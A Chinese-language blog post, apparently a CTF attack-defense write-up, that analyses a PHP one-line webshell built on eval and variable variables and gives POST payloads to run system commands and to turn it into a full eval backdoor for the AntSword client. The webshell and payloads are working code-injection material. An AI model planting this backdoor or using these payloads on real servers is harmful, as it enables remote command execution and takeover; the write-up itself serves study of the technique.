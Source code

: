 ```yaml
---
title: "一个有趣的PHP一句话"
date: 2019-06-30T13:29:56+08:00
lastmod: 2019-06-30T13:29:56+08:00
draft: false
tags: ['php','shell']
categories: ['code']
comment: true
---
```

在iscc线下赛awd中遇到了一个shell，挺有意思，记录一下。
<!--more-->
源代码是这样的。其实刚拿到这个shell的时候我挺蒙的，不知道该怎么去利用，然后分析了一下，发现其实也还简单，下面我们一起来看下。

```php
<?php
show_source(__FILE__);
$a = @$_REQUEST['a'];
@eval("var_dump($$a);");
```

首先从请求中拿到`$a`参数，然后经过一次`var_dump`输出`$$a`的值，最后交给`eval`去执行。

那么显然`eval`的参数我们是可以控制的，关键的点就在于怎么去控制`var_dump`函数输出的内容。

我们先来看下var_dump函数的效果

```php
$a= 'phpinfo();';
var_dump($a);
浏览器输出
E:\code\php\1.php:8:string 'phpinfo();' (length=10)
```

可以看出来他会把变量的类型和变量的值都输出出来。

然后我们回头来看`$$`，在之前的文章中提到过，`$$`是存在变量覆盖的，那么我们可以通过`$$`来把`a`变量覆盖为我们想要的值。

![](https://y4er.com/img/uploads/20190630134606.png)

可以看到，当我们post提交`a=a=1`是，`$a`的值被覆盖为1，此时`eval`执行的是`eval("var_dump($a=1);")`

那么我们继续构造payload，闭合`var_dump`来拼接我们自己的函数。

```http
post
a=a=1);system(whoami
```

![](https://y4er.com/img/uploads/20190630135147.png)

利用成功！

那么怎么让蚁剑也能用这个shell呢？继续修改我们的payload

```http
post
a=a=1);eval($_POST[p]);//
```

然后蚁剑配置

![](https://y4er.com/img/uploads/20190630135604.png)

密码是p。这样就能连上蚁剑了。



s1ye师傅提出了另一种思路`${}`。~~他个臭嗨又偷偷看我文章~~

![](https://y4er.com/img/uploads/20190707175856.png)